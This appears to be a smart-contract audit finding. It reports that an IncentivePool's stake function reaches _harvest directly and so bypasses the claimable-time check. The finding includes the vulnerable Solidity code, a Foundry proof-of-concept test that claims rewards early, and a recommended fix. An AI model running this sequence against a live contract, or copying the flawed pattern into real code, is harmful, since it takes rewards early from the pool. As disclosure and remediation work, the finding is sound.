 ## Description
The `onlyClaimableTime` modifier is implemented in the `harvest` function. However, this
is problematic as the `stake` function directly calls the `_harvest` function, bypassing this
modifier.

## Vulnerability Details

The `onlyClaimableTime` modifier checks if the `claimableTime` value has been reached.

```solidity
modifier onlyClaimableTime {
    require(claimableTime > 0 && block.timestamp >= claimableTime, "Harvest: unclaimable time");
    _;
}
```

This modifier is only implemented in the `harvest` function.

```solidity
function harvest() external whenNotPaused nonReentrant onlyClaimableTime {
    _harvest();
}

function _harvest() internal {
    unchecked {
        address _user = msg.sender;
        uint256 _u2uRewards = _pendingRewards(_user);
        users_[_user].latestHarvest = block.timestamp;
        if (_u2uRewards > 0) {
            users_[_user].totalClaimed += _u2uRewards;
            // Handle send rewards
            TransferHelper.safeTransferNative(_user, _u2uRewards);
            emit Harvest(_user, _u2uRewards);
        }
    }
}
```

Taking a look at the `stake` function below:

```solidity
function stake(
    uint256 _amount,
    uint256 _expiresAt,
    bytes memory _signature
) external whenNotPaused nonReentrant {
    require(block.timestamp < endTime, "Pool is ended");
    require(_amount >= MIN_STAKE_AMOUNT, "not enough minimum stake amount");
    if (!ignoreSigner) {
        require(!usedSignatures[_signature], "Stake: signature reused");
        usedSignatures[_signature] = true;
        address _signer = _verifyStake(_expiresAt, _signature);
        require(hasRole(POOL_SIGNER, _signer), "Stake: only signer");
        require(_expiresAt >= block.timestamp, "Stake: signature expired");
    }
    _stake(_amount);
}

function _stake(uint256 _amount) internal {
    unchecked {
        _harvest();
        // rest of the function
    }
}
```

It is observed that this function directly makes a call to the `_harvest` function, bypassing the `onlyClaimableTime` modifier. This means that users can claim their rewards before `claimableTime` is reached by staking the minimum amount that is required.

This vulnerability also exists in the `unstake` function. However, since this function checks if the `endTime` has been reached, it is not a realistic attack vector as long as `claimableTime` is less than the `endTime`.

## Proof of Concept

An example of a test that simulates the vulnerability is below.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "forge-std/Test.sol";
import "forge-std/console.sol";
import "../IncentivePool.sol";
import "../../libs/TransferHelper.sol";
import "@openzeppelin/contracts/token/ERC20/ERC20.sol";

contract MockERC20 is ERC20 {
    constructor(string memory name, string memory symbol) ERC20(name, symbol) {}

    function decimals() public view virtual override returns (uint8) {
        return 6;
    }

    function mint(address to, uint256 amount) external {
        _mint(to, amount);
    }
}

contract IncentivePoolTest is Test {
    IncentivePool public incentivePool;
    MockERC20 public pUSDT;

    address user = address(0x1);
    address admin = address(0x2);

    uint256 constant INITIAL_PUSDT_SUPPLY = 1_000_000 * 1e6;
    uint256 constant START_TIME = 1_700_000_000;
    uint256 constant STAKE_AMOUNT = 1000 * 1e6;

    function setUp() public {
        // Deploy Mock pUSDT token and mint to user
        pUSDT = new MockERC20("Mock pUSDT", "pUSDT");
        pUSDT.mint(user, INITIAL_PUSDT_SUPPLY);

        // Deploy IncentivePool contract
        incentivePool = new IncentivePool(address(pUSDT), START_TIME);

        // Assign DEFAULT_ADMIN_ROLE to admin
        incentivePool.grantRole(incentivePool.DEFAULT_ADMIN_ROLE(), admin);

        // Set ignoreSigner to true
        vm.prank(admin);
        incentivePool.setIgnoreSigner(true);

        // Set claimableTime
        vm.prank(admin);
        incentivePool.setClaimableTime(START_TIME + 500);

        // Approvals
        vm.prank(user);
        pUSDT.approve(address(incentivePool), type(uint256).max);

        // Fund the IncentivePool contract
        vm.deal(address(incentivePool), 100000 ether);
    }
    
    function testStakeTwiceBeforeClaimableTimeRewardsDistributed() public {
        // Set claimableTime in the future
        uint256 futureClaimableTime = START_TIME + 1000;
        vm.prank(admin);
        incentivePool.setClaimableTime(futureClaimableTime);

        // Forward time to after start time but still before claimableTime
        vm.warp(START_TIME + 1);

        // Initial stake by user
        uint256 initialStakeAmount = 1000 * 1e6; // 1,000 pUSDT
        vm.prank(user);
        incentivePool.stake(initialStakeAmount, START_TIME + 1000, "");

        // Cache user’s balance
        uint256 initialTotalClaimed = user.balance;

        // Move forward in time, but still before claimableTime
        vm.warp(START_TIME + 500);

        // Stake again with an additional amount
        uint256 additionalStakeAmount = 500 * 1e6; // 500 pUSDT
        vm.prank(user);
        incentivePool.stake(additionalStakeAmount, START_TIME + 1500, "");

        // Cache user’s new balance
        uint256 totalClaimedAfterSecondStake = user.balance;

        // Verify rewards were distributed on the second stake
        assertGt(totalClaimedAfterSecondStake, initialTotalClaimed);

        // Print user’s claimed rewards for verification
        console.log("User's rewards after first stake:", initialTotalClaimed);
        console.log("User's rewards after second stake:", totalClaimedAfterSecondStake);
    }
}
```

## Impact

Users can claim rewards even if `claimableTime` is less than the `block.timestamp`.

## Recommendation

Change the `_stake` and `_unstake` functions so that these functions keep track of how many rewards are owed to the user at that time instead of calling the `_harvest` function. With this change, the `_harvest` function should transfer users the owed rewards and the pending rewards. Implement correct calculations to prevent double claiming of rewards.

In short, implement a snapshot mechanic that keeps track of rewards that are owed to users.
